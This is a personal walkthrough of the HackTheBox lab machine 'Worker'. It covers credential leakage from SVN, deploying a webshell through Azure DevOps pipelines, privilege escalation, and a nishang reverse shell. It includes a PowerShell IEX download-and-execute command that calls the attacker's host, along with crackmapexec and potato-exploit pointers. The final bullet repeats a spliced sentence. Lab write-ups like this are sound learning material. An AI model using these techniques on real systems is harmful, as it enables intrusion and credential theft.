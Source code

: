 # Worker

Details:
- Worker IP: 10.10.10.203
- Kali IP: 10.10.14.160
- Date of writeup: 12 March 2021

A hard box! Learned to use Azure DevOps for this one!

Sections:
- [Recon](#recon)
- [Inspecting svnserve](#inspecting-svnserve)
- [Azure DevOps](#azure-devops)
- [Reverse shell](#reverse-shell)
- [Getting the user](#getting-the-user)
- [Getting to root](#getting-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)

## Recon
Run nmap
```kali$  nmap -sC -sV 10.10.10.203```

![](images/Worker_1.png?raw=true)

There's a port that immediately caught my attention, port 3690. Let's start there.

## Inspecting svnserve
First thing I tried was to check if there was something in exploitdb that I could use.
 
```searchsploit svnserve```

Turns out there was something that sounded like it could work (svnserve_date) so I tried it. I now understand that attempting an attack blindly is reckless and most of the time it would be pointless as well. I had no version knowledge so this was bound to fail.   

![](images/Worker_3.png?raw=true)

I then tried what I should have done first. I said to myself "this is an SVN server, there must be some data I might be able to get from it". Sure enough, running ```svnrdump dump svn://10.10.10.203``` got me a lot of data.

While inspecting that data, I came across something very intersting:

![](images/Worker_5.png?raw=true)

Creds!! A bad commit like this (revision 3) can really get you in trouble. It seems 'nathen' figured it out eventually, but forgot to perform some cleanup actions.

So I got creds. Where to use them though? Maybe WinRM? (I verified the port was opened before attempting this)

![](images/Worker_7.png?raw=true)

Tough luck. Back to reconing.

I decided to start inspecting the pages being hosted at port 80. From the SVNServe dump I got a hostname ```dimension.worker.htb```, so I went ahead and added it to my hosts file.

![](images/Worker_13.png?raw=true)

I visited that page and after some browsing around, I found some more subdomains, which I also added to the hosts file.

![](images/Worker_11.png?raw=true)

![](images/Worker_12.png?raw=true)

I inspected these pages for a while and couldn't get anything. I went back to the SVNServe dump to see if I had missed anything and, sure enough:

![](images/Worker_16.png?raw=true)

Browsing to http://devops.worker.htb, I got a prompt for credentials. I wrote in nathen's credentials and got in!

![](images/Worker_17.png?raw=true)

![](images/Worker_18.png?raw=true)


## Azure DevOps
This part was tough! Azure's platform was new to me and I often found myself in trouble in it. I had a hard time understanding what was going on and how things worked, myself being used to other systems.

There was a lot of garbage to decieve you, but, finally, I got to understand the project structure and started analyzing the repositories. In the ```spectral``` repository, there was an interesting commit that later on got deployed.

![](images/Worker_22.png?raw=true)

![](images/Worker_21.png?raw=true)

You can see in the images that the web page was in fact running a version with the changes made, since it said "pure" instead of "awesome" geniuses.

The path was clear: upload something that will allow RCE. I first tried an ASP webshell https://github.com/BlackArch/webshells/blob/master/aspx/cmdasp.aspx

![](images/Worker_25.png?raw=true)

You need to create a Pull Request and approve it, but that's easy job:

![](images/Worker_24.png?raw=true)

Then launch the appropriate pipeline to release this. This was hard to do and unfortunately I don't recall how exactly I found the solution. If I ever get VIP access to HTB I'll retry this box and edit this section.

Anyhow, I eventually got to doing this

![](images/Worker_32.png?raw=true)

After the website is deployed, you can access the webshell at http://spectral.worker.htb/cmdasp.aspx

![](images/Worker_31.png?raw=true)
 
Great! We have RCE now. 

## Reverse shell

Getting a reverse shell should be easy now, shouldn't it? Well, it turned out that getting a _proper_ reverse shell wasn't that easy. My first attempts with a normal perl reverse shell looked like this

![](images/Worker_33.png?raw=true)

This is good, but kind of uncomfortable. So I tried with [nishang](https://github.com/samratashok/nishang) reverse shells. I used ```Invoke-PowerShellTcp``` and edited it so at the end it would call the main function:

![](images/Worker_35.png?raw=true)

I sent this file to the box by opening an HTTP server with Python3 and calling in the webshell: 
```
cmd.exe /c powershell IEX(New-Object net.webclient).downloadString('http://10.10.15.61:8083/rem.ps1')
```

![](images/Worker_36.png?raw=true)

## Getting the user

When I was trying my best to deploy the webshell to the Spectral repository, I noticed the following:

![](images/Worker_38.png?raw=true)

There's a ```W:``` drive. A quick look there showed me that the repositories are stored there, and there were plaintext credentials

![](images/Worker_37.png?raw=true)

I used ```crackmapexec``` to try these and eventually found that ```robisl``` is valid!

![](images/Worker_39.png?raw=true)

## Getting to root

I must confess here that I went hunting for some tips for this one. I spent a long time trying stuff and nothing seemed to work.

In the end, Azure DevOps was also the place to get to root. I created a Starter pipeline that I customized to call my nishang reverse shell script (```rem.ps1```)

![](images/Worker_44.png?raw=true)

![](images/Worker_43.png?raw=true)

![](images/Worker_41.png?raw=true)

## Learnings from ippsec walkthrough

- Bruteforces hostames with gobuster ```gobuster vhost -w wordlist -u URL```
- Uses tennc webshells [TODO] github link
- Uses nishang reverse shell as well, but executes it as an encoded powershell command ```cat Script.ps1 | iconv -t utf-16le | base64 -w 0```
- Also uses ```script``` command and ```rlwrap```
- ```crackmapexec winrm IP -u USERS -p PWD --no-bruteforce``` Only does one password per user
- He finds an unintended privesc path: the IIS user has the SeImpersonatePrivilege (```whoami /all```). Then runs - He finds an unintended privesc path: the IIS user has the SeImpersonatePrivilege (```whoami /all```). Then runs ```systeminfo``` to see the version of Windows the box is running and to know whether JuicyPotato / RoguePotato will work
    - https://github.com/antonioCoco/RoguePotato
    - https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
    - Uses chisel.exe to open ports

 

